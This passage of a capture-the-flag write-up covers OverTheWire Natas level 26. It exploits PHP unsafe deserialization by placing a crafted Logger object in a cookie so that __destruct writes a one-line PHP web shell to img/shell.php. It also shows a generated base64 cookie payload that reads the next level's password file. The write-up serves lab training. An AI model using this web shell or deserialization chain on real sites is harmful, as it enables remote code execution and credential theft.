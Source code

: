 ## 2. **__destruct() RCE Vector**

```
function __destruct(){
    $fd=fopen($this->logFile,"a+");
    fwrite($fd,$this->exitMsg);
    fclose($fd);
}

```

- If you inject a `Logger` object via the `drawing` cookie with a custom `logFile` path (e.g. `/var/www/html/img/shell.php`), and control the content of `exitMsg`, you can **write PHP code into a web-accessible file** and get RCE.

### Exploitation Plan (in short):

1. **Craft a malicious `Logger` object** with:
    - `$logFile = 'img/shell.php'`
    - `$exitMsg = '<?php system($_GET["cmd"]); ?>'`
2. **Serialize → base64 encode → set it as the `drawing` cookie**
3. Refresh the page → `__destruct()` triggers → payload written to `img/shell.php`
4. **Access `img/shell.php?cmd=whoami` → you get code execution**

- Now, I wrote a script to generate a Base64 encoded cookie.

  ```
  $ php natas26-logger.php  
  Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo2NToiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbmF0YXMyNl9uNTNiYzUxaGFyNTlyOTBzbG4ybGQ1MzgwZS5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1OToiPD9waHAgZWNobyBzaGVsbF9leGVjKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30= 
  ```

- Copy paste the cookie value and refreshe the page. It will cause an error, but that is good!

  <img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas26/cookie.png"/>
